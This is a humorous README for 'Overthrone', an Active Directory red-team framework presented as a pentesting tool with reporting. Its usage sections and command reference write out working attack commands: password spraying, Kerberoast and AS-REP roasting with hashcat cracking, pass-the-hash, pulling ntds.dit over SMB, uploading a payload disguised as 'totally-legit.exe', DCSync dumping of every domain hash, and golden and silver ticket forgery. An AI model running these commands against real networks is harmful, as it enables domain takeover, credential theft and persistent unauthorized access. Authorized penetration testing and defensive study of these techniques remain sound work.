

<p align="center">
  
</p>

<h1 align="center">Overthrone</h1>

<p align="center">
  <b>Autonomous Active Directory Red Team Framework.</b><br/>
  Every throne falls. Overthrone makes sure of it.
</p>

<p align="center">
  <a href="https://github.com/Karmanya03/Overthrone/releases"></a>
  <a href="https://github.com/Karmanya03/Overthrone/blob/main/LICENSE"></a>
  
  
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  
  
  
  
  
</p>

---

## What is this?

You know how in medieval warfare, taking a castle required siege engineers, scouts, cavalry, archers, sappers, and someone to open the gate from inside? Active Directory pentesting is exactly that, except the castle is a Fortune 500 company, the gate is a misconfigured Group Policy, and the "someone inside" is a service account with `Password123!` that hasn't been rotated since Windows Server 2008 was considered modern.

Overthrone is a full-spectrum AD red team framework that handles the entire kill chain — from "I have network access and a dream" to "I own every domain in this forest and here's a 47-page PDF proving it." Built in Rust because C2 frameworks deserve memory safety too, and because debugging use-after-free bugs during an engagement is how you develop trust issues (both the Active Directory kind and the personal kind).

This is not a scanner. This is not a "run Mimikatz but in Rust" tool. This is not another Python wrapper that breaks when you look at it funny. This is the whole siege engine. One binary. Zero dependencies\*. All regret (for the blue team).

> **Shorthand:** Every command works with both `overthrone` and `ovt`. Because life is too short to type 10 characters when 3 will do. `ovt autopwn` = `overthrone autopwn`. Same war crimes against Active Directory, fewer keystrokes.

\*Okay, one dependency. `smbclient`. We'll explain later. Don't @ us.

### The Kill Chain

```
  YOU                        OVERTHRONE                        DOMAIN CONTROLLER
   |                              |                                    |
   |   ovt autopwn                |                                    |
   |----------------------------->|                                    |
   |                              |                                    |
   |   Phase 1: RECON             |                                    |
   |   ├─ LDAP enumeration ------>|------ Who are you people? -------->|
   |   ├─ Users, groups, GPOs     |<----- Here's literally everything -|
   |   ├─ Kerberoastable SPNs     |       (AD has no chill)            |
   |   ├─ AS-REP roastable accts  |                                    |
   |   └─ Domain trusts           |                                    |
   |                              |                                    |
   |   Phase 2: GRAPH             |                                    |
   |   ├─ Build attack graph      |                                    |
   |   ├─ Find shortest path      |                                    |
   |   │   to Domain Admin        |                                    |
   |   └─ "Oh look, 3 hops.      |                                    |
   |       That's... concerning." |                                    |
   |                              |                                    |
   |   Phase 3: EXPLOIT           |                                    |
   |   ├─ Kerberoast that SPN --->|------ TGS-REQ for MSSQLSvc ------>|
   |   ├─ Crack offline           |<----- Here's a ticket, help urself |
   |   ├─ Pass-the-Hash --------->|------ SMB auth with NT hash ------>|
   |   └─ Lateral move            |       (the hash IS the password)   |
   |                              |                                    |
   |   Phase 4: PERSIST           |                                    |
   |   ├─ DCSync ---------------->|------ Replicate me everything ---->|
   |   ├─ Golden Ticket           |<----- krbtgt hash, as requested ---|
   |   └─ You own the forest.     |       (hope you enjoyed your reign)|
   |       The forest doesn't     |                                    |
   |       know yet.              |                                    |
   |                              |                                    |
   |   Phase 5: REPORT            |                                    |
   |   └─ PDF that makes the      |                                    |
   |      blue team question      |                                    |
   |      their career choices    |                                    |
   V                              V                                    V
```

## Architecture

Overthrone is a Rust workspace with 8 crates, because monoliths are for cathedrals, not offensive tooling. Each crate handles one phase of making sysadmins regret their GPO configurations:

```
overthrone/
├── crates/
│   ├── overthrone-core       # The brain — LDAP, Kerberos, SMB, NTLM, DRSR protocols
│   ├── overthrone-hunter     # Enumeration — finds everything AD will confess
│   ├── overthrone-reaper     # Exploitation — the part that voids warranties
│   ├── overthrone-crawler    # Lateral movement — PtH, PtT, PSRemote, SMB spreading
│   ├── overthrone-forge      # Persistence — Golden/Silver tickets, DCSync, skeleton key
│   ├── overthrone-pilot      # The autopilot — autonomous "hold my beer" mode
│   ├── overthrone-scribe     # Reporting — turns carnage into compliance documents
│   └── overthrone-cli        # The CLI — where you type things and thrones fall
```

### What Each Crate Does

| Crate | Codename | Purpose | In human terms |
|---|---|---|---|
| `overthrone-core` | The Foundation | Protocol implementations (LDAP, Kerberos, SMB, NTLM, MS-DRSR), attack graph engine, error handling | The engine block. Everything else bolts onto this. Without it you're just a person staring at port 389. |
| `overthrone-hunter` | The Scout | Domain enumeration, user/group/GPO/trust discovery, SPN scanning, ACL auditing | BloodHound's data collection, but it doesn't need .NET or a Neo4j database the size of a small country. |
| `overthrone-reaper` | The Executioner | Kerberoasting, AS-REP roasting, ACL exploitation, delegation abuse | The part your SOC analyst has nightmares about. The part that makes "it's just a low-privilege user" age like milk. |
| `overthrone-crawler` | The Infiltrator | Pass-the-Hash, Pass-the-Ticket, WMI/PSRemote execution, SMB lateral movement | You're in one box. You want to be in all boxes. This crate has commitment issues (it won't stay on one machine). |
| `overthrone-forge` | The Blacksmith | Golden Tickets, Silver Tickets, DCSync, skeleton keys, DPAPI, persistence mechanisms | You don't just take the throne. You weld yourself to it, set it in concrete, and put a "DO NOT DISTURB" sign on it. |
| `overthrone-pilot` | The Strategist | Autonomous attack planning, goal-based execution, engagement state management | The crate that decides "Kerberoast first, then PtH to YOURPC$, then DCSync." You sit back and pretend you did all the work. |
| `overthrone-scribe` | The Chronicler | Report generation — findings, attack paths, remediation, executive summary | Turns "I hacked everything" into "here's why you should pay us." The difference between a pentest and a felony is documentation. |
| `overthrone-cli` | The Interface | CLI binary, command routing, interactive shell, TUI output | Where human meets machine. Pretty colors included. We spent more time on the terminal aesthetics than we'd like to admit. |

## Features

### Enumeration (overthrone-hunter)

The "ask nicely and receive everything" phase. Active Directory is the most oversharing protocol since your aunt discovered Facebook.

| Feature | What it finds |
|---|---|
| **Full LDAP enumeration** | Every user, computer, group, OU, and GPO in the domain. AD is surprisingly chatty with authenticated users. It's like a bartender who tells you everyone's secrets after one drink. |
| **Kerberoastable accounts** | Service accounts with SPNs. These are the ones with passwords that haven't been changed since someone thought "qwerty123" was secure. |
| **AS-REP roastable accounts** | Accounts that don't require pre-authentication. Someone literally unchecked a security checkbox. On purpose. In production. We can't make this stuff up. |
| **Domain trusts** | Parent/child, cross-forest, bidirectional. The map of "who trusts whom" and more importantly, "who shouldn't." Trust is a vulnerability. |
| **ACL analysis** | GenericAll, WriteDACL, WriteOwner — the holy trinity of "this service account can do WHAT?" The answer is usually "everything" and the IT team usually says "that's by design." |
| **Delegation discovery** | Unconstrained, constrained, resource-based. Delegation is AD's way of saying "I trust this computer to impersonate anyone." Microsoft calls this a feature. We call it job security. |
| **Password policy** | Lockout thresholds, complexity requirements, history. Know the rules before you break them. Knowing they require 8 characters with complexity tells you most passwords end in `!` or `1`. |
| **LAPS discovery** | Which computers have Local Admin Password Solution. Which ones don't. The second list is always longer. The second list is always more interesting. |

### Attack Graph (overthrone-core)

The attack graph engine is basically BloodHound rebuilt in Rust without the Neo4j dependency that eats 4GB of RAM for breakfast and asks for seconds. It maps every relationship in the domain and finds the shortest path to making the blue team update their resumes.

| Feature | Details |
|---|---|
| **Directed graph** | Nodes (users, computers, groups, domains) and edges (MemberOf, AdminTo, HasSession, GenericAll, etc.) — it's LinkedIn for attack paths. |
| **Shortest path** | Dijkstra with weighted edges — `MemberOf` is free, `AdminTo` costs 1, `HasSpn` costs 5 (offline cracking). It finds the path of least resistance. Just like a real attacker. Just like water. We are water. |
| **Path to DA** | Finds every shortest path from a compromised user to Domain Admins. Usually shorter than you'd expect. Usually terrifyingly short. Usually involves a service account named `svc_backup` with GenericAll on the domain. |
| **High-value targets** | Auto-identifies Domain Admins, Enterprise Admins, Schema Admins, KRBTGT, DC computer accounts. The VIPs. The "if you compromise these, the game is over" list. |
| **Kerberoast reachability** | "From user X, which Kerberoastable accounts can I reach, and how?" — it's a shopping list for your GPU. |
| **Delegation reachability** | "From user X, which unconstrained delegation machines are reachable?" (Spoiler: it's usually the print server. It's always the print server. PrintNightmare was not an accident, it was destiny.) |
| **JSON export** | Full graph export for D3.js, Cytoscape, or your visualization tool of choice. Make it pretty for the report. Clients love graphs that look like conspiracy boards. |
| **Degree centrality** | Find the nodes with the most connections. These are either Domain Admins or the IT intern's test account that somehow has GenericAll on the entire domain. There's no in between. |

### Exploitation (overthrone-reaper)

The "warranty is now void" phase.

| Attack | How it works | Why it works |
|---|---|---|
| **Kerberoasting** | Request TGS tickets for SPN accounts, crack offline with hashcat | Service accounts + weak passwords + RC4 encryption = game over. The DC hands you encrypted tickets and says "good luck cracking these" and hashcat says "lol." |
| **AS-REP Roasting** | Request AS-REP for accounts without pre-auth, crack offline | Someone unchecked "Do not require Kerberos preauthentication." That single checkbox has caused more breaches than phishing. Okay, not really. But it's up there. |
| **ACL Abuse** | GenericAll → reset password. WriteDACL → give yourself GenericAll. WriteOwner → give yourself WriteDACL. It's turtles all the way down. | AD ACLs are inherited, complex, and audited by approximately nobody. They're the "terms and conditions" of the security world — everyone clicks accept, nobody reads them. |
| **Delegation Abuse** | Unconstrained → steal TGTs from anyone who authenticates. Constrained → impersonate users to specific services. RBCD → convince the DC you're allowed to. | Microsoft: "Delegation is a feature." Attackers: "Yes. Yes it is. Thank you." |
| **Password Spraying** | Try common passwords against all users, respecting lockout policy | "Winter2026!" hits different when 847 employees use it. Password complexity requirements just mean everyone uses the same formula: `Season + Year + Special Character`. We cracked the code. Literally. |

### Lateral Movement (overthrone-crawler)

You're in one box. You want to be in all the boxes. This crate doesn't believe in monogamy.

| Technique | Protocol | What happens |
|---|---|---|
| **Pass-the-Hash** | SMB/NTLM | Authenticate with NT hash, no password needed. Your hash IS your password. Microsoft calls this "by design." We call it "by our design." |
| **Pass-the-Ticket** | Kerberos | Inject a stolen/forged TGT or TGS. Be anyone, anywhere, for the ticket lifetime. Identity is just a suggestion. |
| **PSRemote** | WinRM/WSMan | PowerShell remoting. Execute commands like a sysadmin. Because you basically are one now. Congrats on the promotion nobody asked for. |
| **SMB File Operations** | SMB2/3 | Read/write shares, deploy payloads, exfiltrate data. The file server doesn't judge. It doesn't even ask questions. |
| **WMI Execution** | DCOM/WMI | Remote process creation. The classic "how did calc.exe get on the DC?" — it's not a mystery, it's a feature. |
| **DCOM** | DCOM | Distributed COM object abuse. Excel has never been weaponized this elegantly. Spreadsheets of mass destruction. |

### Persistence (overthrone-forge)

Taking the throne is easy. Keeping it is an art form. This crate welds the crown to your head.

| Technique | What it does | How long it lasts |
|---|---|---|
| **DCSync** | Replicate credentials from the DC using MS-DRSR. Get every hash in the domain. Every. Single. One. All of them. The CEO's. The intern's. The service account from 2009 that nobody remembers creating. | As long as you have the hashes. So... forever, basically. Hashes don't expire. They're like diamonds, but useful. |
| **Golden Ticket** | Forge a TGT signed with the KRBTGT hash. Be any user. Access anything. The Willy Wonka golden ticket, except the chocolate factory is Active Directory and the Oompa Loompas are domain controllers. | Until KRBTGT password is reset TWICE. Two consecutive resets. Which happens in most orgs... never. It literally never happens. |
| **Silver Ticket** | Forge a TGS for a specific service. Stealthier than Golden — no DC interaction needed. It's like having a fake badge that only works on one door, but that door is the server room. | Until the service account password changes. See "hasn't been changed since the Obama administration" above. |
| **Skeleton Key** | Patch LSASS on the DC to accept a master password alongside real passwords. Every account, one password. | Until DC reboot. Bold. Dangerous. The "I brought a flamethrower to a knife fight" of persistence techniques. |
| **DPAPI Secrets** | Decrypt saved credentials, browser passwords, Wi-Fi keys from compromised machines. Chrome's password manager suddenly feels less safe. | One-time extraction, permanent access. Every saved password on the machine becomes your password. |

### Reporting (overthrone-scribe)

The difference between a penetration test and a crime is paperwork. This crate does the paperwork.

| Format | Use case |
|---|---|
| **PDF** | Executive summary for people who think "Domain Admin" is a job title. (It is. And you just stole it. From everyone. Simultaneously.) |
| **HTML** | Interactive report with collapsible findings, pretty graphs, and enough red severity indicators to make a Christmas tree jealous. |
| **JSON** | Machine-readable for integration with ticketing systems, SIEMs, or your custom "how screwed are we" dashboard. Pairs well with panic attacks. |

Every report includes: findings with severity, full attack paths with hop-by-hop details, affected assets, remediation steps, and an executive summary written in English (not pentester). Because "GenericAll on the Domain Object via nested group membership through a misconfigured ACE on an orphaned OU" means nothing to a CISO. "Anyone in marketing can become Domain Admin in 3 steps" does. That sentence has ended careers.

## Installation

### One-line install (Linux/macOS)

```bash
curl -fsSL https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.sh | bash
```

Auto-detects your platform, grabs the right binary, installs both `overthrone` and `ovt` to your PATH. Easier than misconfiguring a GPO.

### One-line install (Windows PowerShell)

```powershell
irm https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.ps1 | iex
```

Same thing, but for people who attack Active Directory from inside Active Directory. We respect the audacity.

### Download a binary

Grab the latest from [**Releases**](https://github.com/Karmanya03/Overthrone/releases):

| Platform | Binary | Architecture |
|---|---|---|
| **Windows** | [`overthrone-windows-x86_64.exe`](https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-windows-x86_64.exe) | x86_64 |
| **Linux** | [`overthrone-linux-x86_64`](https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-linux-x86_64) | x86_64 (musl, static) |
| **macOS** | [`overthrone-macos-aarch64`](https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-macos-aarch64) | Apple Silicon (M1/M2/M3/M4) |

**Quick manual install:**

```bash
# Linux x86_64
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-linux-x86_64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/

# macOS Apple Silicon
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-macos-aarch64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/

# Kali (you're probably already here)
curl -L https://github.com/Karmanya03/Overthrone/releases/download/v0.1.1/overthrone-linux-x86_64 -o ovt && chmod +x ovt && sudo mv ovt /usr/local/bin/ && sudo apt install -y smbclient
```

### Build from source

For the trust-no-one crowd (respect — you're pentesters, paranoia is a job requirement):

```bash
git clone https://github.com/Karmanya03/Overthrone.git
cd Overthrone
cargo build --release

# Binaries at:
#   target/release/overthrone
#   target/release/ovt
# Same binary, two names. Like Clark Kent and Superman but less handsome.
```

### Post-install: smbclient

Overthrone is pure Rust with one external dependency. One. We tried to make it zero but `smb-rs` v0.11 doesn't expose directory listing yet. We're not bitter about it. (We're a little bitter about it.)

```bash
# Debian/Ubuntu/Kali
sudo apt install smbclient

# Arch (btw)
sudo pacman -S samba

# Fedora/RHEL
sudo dnf install samba-client

# macOS
brew install samba

# Windows
# Already there. Windows ships with SMB. It's the one time Windows having
# everything pre-installed actually works in your favor.
```

### Update

```bash
# Linux/macOS — same one-liner, overwrites old binary
curl -fsSL https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.sh | bash

# Windows PowerShell
irm https://raw.githubusercontent.com/Karmanya03/Overthrone/main/install.ps1 | iex

# From source
cd Overthrone && git pull && cargo build --release

# Via cargo
cargo install --git https://github.com/Karmanya03/Overthrone.git --force
```

### Uninstall

Changed your mind? Going back to Impacket? We understand. (We don't understand. But we'll pretend.)

```bash
# Linux/macOS — installed via script
rm -f ~/.local/bin/overthrone ~/.local/bin/ovt

# Linux/macOS — installed to /usr/local/bin
sudo rm -f /usr/local/bin/overthrone /usr/local/bin/ovt

# Windows PowerShell — installed via script
Remove-Item "$env:USERPROFILE\.local\bin\overthrone.exe" -Force
Remove-Item "$env:USERPROFILE\.local\bin\ovt.exe" -Force

# Windows PowerShell — installed to Program Files
Remove-Item "$env:ProgramFiles\Overthrone\overthrone.exe" -Force
Remove-Item "$env:ProgramFiles\Overthrone\ovt.exe" -Force

# Built from source
cargo uninstall overthrone
# or just delete the repo. We won't be offended. (We will be offended.)
```

### Platform Support

| Platform | Status | Notes |
|---|---|---|
| **Kali Linux** | Recommended | Everything pre-installed. `smbclient` already there. This is the way. This is always the way. |
| **Linux** | Full support | Primary dev platform. All features. `apt install smbclient` and go. |
| **Windows** | Full support | Yes, you can attack AD from a Windows box. The irony writes itself. Doesn't need `smbclient`. |
| **macOS** | Full support | Kerberos and LDAP work natively. `brew install samba` for SMB directory listing. Tim Cook would not approve. |
| **WSL** | Full support | The best of both worlds — Windows target, Linux attacker, one machine, one electrical outlet. |
| **FreeBSD** | Probably works | We haven't tested it. If you're pentesting AD from FreeBSD, you're a different breed and we salute you. |

## Changelog

### v0.1.1 — The "Total Control" Update

**New Features:**
- **BloodHound v4 Export**: Export users, groups, computers, and domains to BloodHound-compatible JSON.
- **Ccache Import**: Import Kerberos tickets from binary ccache files (v4) for Pass-the-Ticket.
- **Full LDAP Enumeration**: Complete implementation of user, group, and computer enumeration modules.
- **Attack Graph Engine**:
  - `GraphBuilder` fully implemented to digest enumeration data.
  - `PathFinder` added with `shortest_path`, `paths_to_da`, and `high_value_targets` queries.
- **Stub Elimination**: Zero `unimplemented!()` or `todo!()` macros remain in the codebase.

**Improvements:**
- `overthrone-reaper` now handles all LDAP object types.
- `overthrone-hunter` correctly parses ccache headers and credentials.
- `overthrone-core` graph module now supports weighted edges for cost-based pathfinding.

## Usage

### Quick Start — Autopwn

For when you want to go from "I have creds" to "I own the domain" in one command. The "I have a meeting in an hour and need to own a forest before the calendar invite pops up" option:

```bash
# Full form — for formal occasions
overthrone autopwn --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Shorthand — for every other occasion
ovt autopwn --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
```

That's it. Overthrone enumerates, builds the attack graph, finds the shortest path to DA, executes it, DCSyncs, and generates a report. Go get coffee. Come back to a PDF that explains how you own the entire forest. The forest never saw it coming. Forests rarely do.

### Manual Mode

For the control freaks (and let's be honest, if you're reading a red team tool's README at 2 AM, you're a control freak — we say that with love):

```bash
# Step 1: Enumerate everything
# AD will tell you its entire life story. You just have to ask.
ovt reaper --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
# Or with the alias:
ovt enum --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Step 2: Build and query the attack graph
# "How screwed is this domain?" — a visual answer.
ovt graph build --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
ovt graph path-to-da --from jsmith
ovt graph path --from jsmith --to "Domain Admins"
ovt graph stats
ovt graph export --output graph.json

# Step 3: Kerberoast
# Order tickets, crack offline. The DC doesn't even know you're attacking it.
ovt kerberos roast --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
ovt kerberos asrep-roast --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
# Or with the alias:
ovt roast roast --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Step 4: Get TGT/TGS for further operations
ovt kerberos get-tgt --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'
ovt kerberos get-tgs --spn cifs/dc01.corp.local --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Summer2026!'

# Step 5: Spray (carefully — lockouts = engagement over = career over)
ovt spray --dc 10.10.10.1 --domain corp.local -U users.txt --password 'Winter2026!'

# Step 6: Lateral movement
# Be somewhere else. Then somewhere else. Then everywhere.
ovt smb admin --targets 10.10.10.50 --dc 10.10.10.1 --domain corp.local -u admin \
  --nt-hash 8846f7eaee8fb117ad06bdd830b7586c
ovt exec --target 10.10.10.50 --command "whoami /all" --dc 10.10.10.1 --domain corp.local -u admin -p 'Pass'

# Step 7: Persist — Ticket Forging
# Take the throne. Bolt it down. Change the locks. Hide the spare key.
ovt forge golden --domain-sid S-1-5-21-... --domain corp.local --krbtgt-hash <hash> --user Administrator
ovt forge silver --domain-sid S-1-5-21-... --domain corp.local --service-hash <hash> --spn cifs/dc01.corp.local

# Step 8: Report
# Turn chaos into a PDF. The blue team will frame it and hang it on their wall.
# (As a reminder of what not to do.)
ovt report --input engagement.json --output report.pdf --format pdf
ovt report --input engagement.json --output report.html --format html
ovt report --input engagement.json --output findings.json --format json

# Step 9: Environment diagnostics
ovt doctor --dc 10.10.10.1
ovt doctor --checks smb,kerberos,winrm
```

### Command Reference

#### `ovt enum` — Enumeration

Asks Active Directory nicely for everything. AD complies because LDAP has no concept of shame, boundaries, or healthy personal space.

```bash
ovt enum [OPTIONS]
```

| Flag | Short | Required | Description |
|---|---|---|---|
| `--dc` | `-d` | Yes | Domain Controller IP or hostname |
| `--domain` | | Yes | Target domain (e.g., `corp.local`) |
| `--username` | `-u` | Yes | Domain username |
| `--password` | `-p` | Yes* | Password (*or use `--hash` — we don't discriminate) |
| `--hash` | | No | NT hash for Pass-the-Hash authentication |
| `--ldaps` | | No | Use LDAP over SSL (port 636). Fancy. |
| `--output` | `-o` | No | Save enumeration to JSON file |
| `--full` | | No | Include ACL enumeration (slower but finds the juicy stuff) |

```bash
# Basic enumeration
ovt enum --dc dc01.corp.local --domain corp.local -u jsmith -p 'Password1'

# Full enumeration with ACLs, saved to file
ovt enum --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Password1' --full -o enum.json

# Hash-based auth — because why crack it if you can just use it?
ovt enum --dc 10.10.10.1 --domain corp.local -u jsmith --hash 8846f7eaee8fb117ad06bdd830b7586c
```

#### `ovt graph` — Attack Graph

Turns your enumeration data into "oh no" moments for the blue team. It's like Google Maps but every route ends at Domain Admin.

```bash
ovt graph [SUBCOMMAND] [OPTIONS]
```

| Subcommand | Description |
|---|---|
| `--path-to-da <user>` | Find shortest paths from user to Domain Admins. Spoiler: it's usually 3 hops. |
| `--shortest-path <src> <dst>` | Find shortest path between any two nodes. |
| `--kerberoastable-from <user>` | Find reachable Kerberoastable accounts. Your GPU's shopping list. |
| `--unconstrained-from <user>` | Find reachable unconstrained delegation targets. (It's the print server.) |
| `--high-value-targets` | List all high-value targets with incoming edge counts. |
| `--stats` | Print graph statistics (nodes, edges, types). |
| `--export <file.json>` | Export full graph as JSON. Make conspiracy board. |

```bash
# "How screwed is the domain if jsmith gets phished?"
ovt graph --path-to-da jsmith

# Find the shortest path between two specific nodes
ovt graph --shortest-path "WEB-SERVER$" "Domain Admins"

# GPU shopping list
ovt graph --kerberoastable-from jsmith

# Export for visualization — clients love pictures
ovt graph --export attack-graph.json
```

#### `ovt roast` — Kerberoasting & AS-REP Roasting

Because service accounts with SPNs are basically "hack me" signs. They might as well have a neon arrow pointing at them.

```bash
ovt roast [kerberoast|asrep] [OPTIONS]
```

| Flag | Description |
|---|---|
| `kerberoast` | Request TGS tickets for all SPN accounts, output in hashcat/john format |
| `asrep` | Request AS-REP for accounts without pre-auth. Free hashes. |
| `--dc` | Domain Controller |
| `--domain` | Target domain |
| `-u`, `--username` | Username |
| `-p`, `--password` | Password |
| `--format` | Output format: `hashcat` (default) or `john` |
| `-o`, `--output` | Save hashes to file |

```bash
# Kerberoast — the DC literally gives you encrypted tickets to crack
ovt roast kerberoast --dc 10.10.10.1 --domain corp.local -u jsmith -p 'Pass' -o kerberoast.txt

# AS-REP roast — for accounts that skipped authentication day
ovt roast asrep --dc 10.10.10.1 --domain corp.local -o asrep.txt

# Then crack offline (our job ends here, your GPU's job starts here)
hashcat -m 13100 kerberoast.txt wordlist.txt  # Kerberoast
hashcat -m 18200 asrep.txt wordlist.txt       # AS-REP
```

#### `ovt spray` — Password Spraying

Tries one password against many users. Respects lockout policies because getting 500 accounts locked at 9:01 AM on a Monday is how you get escorted out of the building by someone who is not smiling.

```bash
ovt spray [OPTIONS]
```

| Flag | Description |
|---|---|
| `--dc` | Domain Controller |
| `--domain` | Target domain |
| `--users` | File with usernames (one per line) |
| `--password` | Password to spray. Try `Season + Year + !` — it works more often than it should. |
| `--delay` | Delay between attempts in seconds (default: 1). Patience is a virtue. |
| `--lockout-threshold` | Max attempts per account (auto-detected if possible) |

```bash
# Spray a single password
ovt spray --dc 10.10.10.1 --domain corp.local --users users.txt --password 'Spring2026!'

# Extra careful mode — for when the lockout threshold is 3 and your hands are sweating
ovt spray --dc 10.10.10.1 --domain corp.local --users users.txt --password 'Welcome1' --delay 5
```

#### `ovt move` — Lateral Movement

You're in one box. You want to be in all boxes. This is the "why stay home when you can travel" module.

```bash
ovt move [pth|ptt|exec|smb] [OPTIONS]
```

| Subcommand | Protocol | What it does |
|---|---|---|
| `pth` | NTLM/SMB | Pass-the-Hash — your hash is your passport |
| `ptt` | Kerberos | Pass-the-Ticket — inject a .kirbi or .ccache. Identity theft, but for computers. |
| `exec` | WMI/PSRemote | Remote command execution. "Hey server, run this for me." "Okay." |
| `smb` | SMB | File operations — upload, download, browse. The file server is an open book. |

```bash
# Pass-the-Hash — the password is dead, long live the hash
ovt move pth --target 10.10.10.50 --domain corp.local -u admin \
  --hash aad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c

# Execute command on remote host — like SSH but scarier
ovt move exec --target 10.10.10.50 --command "whoami /all"

# SMB file operations — the file server's open-door policy
ovt move smb --target 10.10.10.50 --share C$ --list /
ovt move smb --target 10.10.10.50 --share C$ --download /Windows/NTDS/ntds.dit
ovt move smb --target 10.10.10.50 --share C$ --upload payload.exe /Temp/totally-legit.exe
```

#### `ovt forge` — Persistence

You don't just take the throne. You superglue the crown to your head and throw away the key. Then forge a new key. Then throw that one away too.

```bash
ovt forge [dcsync|golden|silver] [OPTIONS]
```

| Subcommand | What it does |
|---|---|
| `dcsync` | Replicate all hashes from the DC via MS-DRSR. Every credential. The whole vault. |
| `golden` | Forge a Golden Ticket (needs KRBTGT hash). Be God. |
| `silver` | Forge a Silver Ticket (needs service account hash). Be a lesser god, but stealthier. |

```bash
# DCSync — ask the DC to replicate all credentials to you. It will. Happily.
ovt forge dcsync --dc 10.10.10.1 --domain corp.local -u dadmin -p 'G0tcha!' -o hashes.txt

# Golden Ticket — be anyone, forever, or until someone resets KRBTGT twice (so, forever)
ovt forge golden \
  --krbtgt-hash <krbtgt_nt_hash> \
  --domain corp.local \
  --domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
  --user Administrator \
  -o golden.kirbi

# Silver Ticket — targeted, stealthy, doesn't touch the DC
ovt forge silver \
  --service-hash <service_nt_hash> \
  --service cifs/fileserver.corp.local \
  --domain corp.local \
  --domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
  --user Administrator \
  -o silver.kirbi
```

#### `ovt report` — Reporting

Turn your path of destruction into a compliance document. Alchemy, but for cybersecurity.

```bash
ovt report [OPTIONS]
```

| Flag | Description |
|---|---|
| `--format` | `pdf`, `html`, or `json` |
| `--output`, `-o` | Output file path |
| `--template` | Custom report template (optional, for the aesthetically demanding) |
| `--executive` | Include executive summary (translates "we owned everything" into "there are areas for improvement") |

```bash
# PDF for the client — the one that makes the CISO's eye twitch
ovt report --format pdf --executive -o final-report.pdf

# HTML for the team — interactive, collapsible, color-coded by severity (mostly red)
ovt report --format html -o findings.html

# JSON for the SIEM — machines reading about machine compromise. How meta.
ovt report --format json -o findings.json
```

## Edge Types & Cost Model

The attack graph uses weighted edges. Lower cost = easier to exploit. The path-finding algorithm minimizes total cost, which means it finds the path of least resistance. Just like a real attacker. Just like electricity. Just like that one coworker who always finds the shortcut.

| Edge Type | Cost | Meaning |
|---|---|---|
| `MemberOf` | 0 | Group membership — free traversal, you already have it |
| `HasSidHistory` | 0 | SID History — legacy identity, free impersonation. A ghost from migrations past. |
| `Contains` | 0 | OU/GPO containment — structural relationship |
| `AdminTo` | 1 | Local admin — direct compromise, do not pass Go, do not collect $200 |
| `DcSync` | 1 | Replication rights — game over. The "I win" button. |
| `GenericAll` | 1 | Full control — you are God (of this specific object). |
| `ForceChangePassword` | 1 | Reset their password — aggressive but effective. They'll blame IT. |
| `Owns` | 1 | Object owner — can grant yourself anything. It's good to be the king. |
| `WriteDacl` | 1 | Modify permissions — give yourself GenericAll, then see above |
| `WriteOwner` | 1 | Change owner — give yourself Owns, then see above. Turtles. |
| `AllowedToDelegate` | 1 | Constrained delegation — impersonate to target service |
| `AllowedToAct` | 1 | RBCD — even sneakier delegation abuse |
| `HasSession` | 2 | Active session — credential theft opportunity. Someone's logged in. Their loss. |
| `GenericWrite` | 2 | Write attributes — targeted property abuse |
| `AddMembers` | 2 | Add to group — escalate via group membership. Invite yourself to the party. |
| `ReadLapsPassword` | 2 | Read LAPS — plaintext local admin password. Thanks, LAPS. Very cool. |
| `ReadGmsaPassword` | 2 | Read gMSA — service account password blob |
| `CanRDP` | 3 | RDP access — interactive logon, needs more effort |
| `CanPSRemote` | 3 | PS Remoting — command execution, less stealthy |
| `ExecuteDCOM` | 3 | DCOM execution — lateral movement via COM objects. Excel goes brrr. |
